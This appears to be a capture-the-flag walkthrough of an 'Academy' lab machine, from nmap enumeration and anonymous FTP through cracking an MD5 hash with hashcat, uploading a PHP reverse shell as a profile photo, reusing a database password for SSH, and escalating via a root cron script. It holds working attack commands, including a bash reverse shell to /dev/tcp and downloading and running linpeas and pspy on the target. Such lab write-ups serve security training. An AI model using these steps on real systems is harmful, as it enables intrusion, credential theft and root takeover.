

## Enumeration

```
IP -> 10.0.2.7
```

```
Nmap scan report for 10.0.2.7
Host is up (0.00017s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.76 seconds
```

Insteresting ports

21 -> FTP 80 -> Apache/2.4.38 ((Debian))

## FTP

```
ftp 10.0.2.7

user: anonymous
pass: anonymous

ls

get note.txt
```

```
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
```

```
hash-identifier

cd73502828457d15655bbd7a63fb0bc8


Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))


echo -n "cd73502828457d15655bbd7a63fb0bc8" > /tmp/academy-hash.txt
sudo gunzip /usr/share/wordlists/rockyou.txt.gz

hashcat -m 0 /tmp/academy-hash.txt /usr/share/wordlists/rockyou.txt
```

```
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 7 3700X 8-Core Processor, 2620/5305 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

cd73502828457d15655bbd7a63fb0bc8:student                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: cd73502828457d15655bbd7a63fb0bc8
Time.Started.....: Sun Feb 13 11:47:36 2022 (0 secs)
Time.Estimated...: Sun Feb 13 11:47:36 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    33504 H/s (0.10ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2048/14344385 (0.01%)
Rejected.........: 0/2048 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> lovers1
Hardware.Mon.#1..: Util: 26%

Started: Sun Feb 13 11:47:14 2022
Stopped: Sun Feb 13 11:47:37 2022
```

## Apache

### Step 1

```
dirb http://10.0.2.7/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Feb 13 11:49:41 2022
URL_BASE: http://10.0.2.7/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.2.7/ ----
+ http://10.0.2.7/index.html (CODE:200|SIZE:10701)                                                                                                         
==> DIRECTORY: http://10.0.2.7/phpmyadmin/                                                                                                                 
+ http://10.0.2.7/server-status (CODE:403|SIZE:273)                                                                                                        
                                                                                                                                                           
---- Entering directory: http://10.0.2.7/phpmyadmin/ ----
+ http://10.0.2.7/phpmyadmin/ChangeLog (CODE:200|SIZE:17598)                                                                                               
==> DIRECTORY: http://10.0.2.7/phpmyadmin/doc/                                                                                                             
==> DIRECTORY: http://10.0.2.7/phpmyadmin/examples/                                                                                                        
+ http://10.0.2.7/phpmyadmin/favicon.ico (CODE:200|SIZE:22486)                                                                                             
+ http://10.0.2.7/phpmyadmin/index.php (CODE:200|SIZE:14555)                                                                                               
==> DIRECTORY: http://10.0.2.7/phpmyadmin/js/                                                                                                              
+ http://10.0.2.7/phpmyadmin/libraries (CODE:403|SIZE:273)    
.
.
.     
```

```
sudo apt install ffuf

FFUF -> Can be better to identify only the first level directories


ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.0.2.7/FUZZ


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.7/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

# Copyright 2007 James Fisher [Status: 200, Size: 10701, Words: 3427, Lines: 369]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 10701, Words: 3427, Lines: 369]
# This work is licensed under the Creative Commons  [Status: 200, Size: 10701, Words: 3427, Lines: 369]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 10701, Words: 3427, Lines: 369]
#                       [Status: 200, Size: 10701, Words: 3427, Lines: 369]
                        [Status: 200, Size: 10701, Words: 3427, Lines: 369]
#                       [Status: 200, Size: 10701, Words: 3427, Lines: 369]
# Priority ordered case sensative list, where entries were found  [Status: 200, Size: 10701, Words: 3427, Lines: 369]
#                       [Status: 200, Size: 10701, Words: 3427, Lines: 369]
#                       [Status: 200, Size: 10701, Words: 3427, Lines: 369]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 10701, Words: 3427, Lines: 369]
# directory-list-2.3-medium.txt [Status: 200, Size: 10701, Words: 3427, Lines: 369]
# on atleast 2 different hosts [Status: 200, Size: 10701, Words: 3427, Lines: 369]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 10701, Words: 3427, Lines: 369]
academy                 [Status: 301, Size: 306, Words: 20, Lines: 10]
phpmyadmin              [Status: 301, Size: 309, Words: 20, Lines: 10]
                        [Status: 200, Size: 10701, Words: 3427, Lines: 369]
server-status           [Status: 403, Size: 273, Words: 20, Lines: 10]
:: Progress: [220560/220560] :: Job [1/1] :: 6256 req/sec :: Duration: [0:00:23] :: Errors: 0 ::
```

### Step 2

```
http://10.0.2.7/academy/

Enter Reg no : 
Enter Password : student


http://10.0.2.7/academy/my-profile.ph
```



* Search in google php reverse shell

```
git clone https://github.com/pentestmonkey/php-reverse-shell

vi php-reverse-shell.php

EDIT:
$ip = '10.0.2.10';  // CHANGE THIS WITH YOUR IP
$port = 1234;       // CHANGE THIS
```

```
ON main host

nc -nvlp 1234
```

* Upload php-reverse-shell.php to server (photo image)

Usually would be necessary to access the url to start the script

`http://10.0.2.7/academy/studentphoto/php-reverse-shell.php`

However in this case, was executed automatically, only go back to terminal and shell is available

```
nc -nvlp 
listening on [any] 1234 ...
connect to [10.0.2.10] from (UNKNOWN) [10.0.2.7] 32908
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 12:11:37 up  1:23,  1 user,  load average: 0.00, 0.01, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                11:16    9:01   0.00s  0.00s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami  
www-data
$ 
```

### Step 3

With www-data user under our control, now is necessary to use privilege scalation.

* [LinPEAS.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* Attacker Machine

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

python3 -m http.server 80
```

* Vulnerable Machine

```
cd /tmp/

wget http://10.0.2.10/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Important notes

```
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEGEND:                                                                                                                                                     
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 


* * * * * /home/grimmie/backup.sh


grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash                                                                                                 
root:x:0:0:root:/root:/bin/bash


╔══════════╣ Searching passwords in config PHP files
$cfg['Servers'][$i]['AllowNoPassword'] = false;                                                                                                              
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['ShowChgPassword'] = true;
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_password = "My_V3ryS3cur3_P4ss";

/var/www/html/academy/includes/config.php
```

```
$ cat /var/www/html/academy/includes/config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
```

```
ssh grimmie@10.0.2.7

pass: My_V3ryS3cur3_P4ss
```

Useful commands to run:

* sudo -l
* history
* crontab -l
* systemctl list-timers

Run linpeas.sh again just in case

`/tmp/linpeas.sh`

### Step 4

[pspy](https://github.com/DominicBreuker/pspy)

pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

* On vulnerable machine

If there\`s no outside access, use the same trick with the _python3 -m http.server 80_ and transfer the file

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
chmod +x pspy64
./pspy64

2022/02/13 12:58:01 CMD: UID=0    PID=14963  | /bin/sh -c /home/grimmie/backup.sh 
2022/02/13 12:58:01 CMD: UID=0    PID=14964  | /bin/bash /home/grimmie/backup.sh 
2022/02/13 12:58:01 CMD: UID=0    PID=14965  | /bin/bash /home/grimmie/backup.sh 
2022/02/13 12:58:01 CMD: UID=0    PID=14966  | /bin/bash /home/grimmie/backup.sh 

```

* Google reverse shell one liner

[Bash reverse shell one liner cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

* Attacker machine

```
nc -nvlp 8081
```

* Vulnerable machine

Edit backup.sh and add the command to be executed

```
bash -i >& /dev/tcp/10.0.2.10/8081 0>&1
```
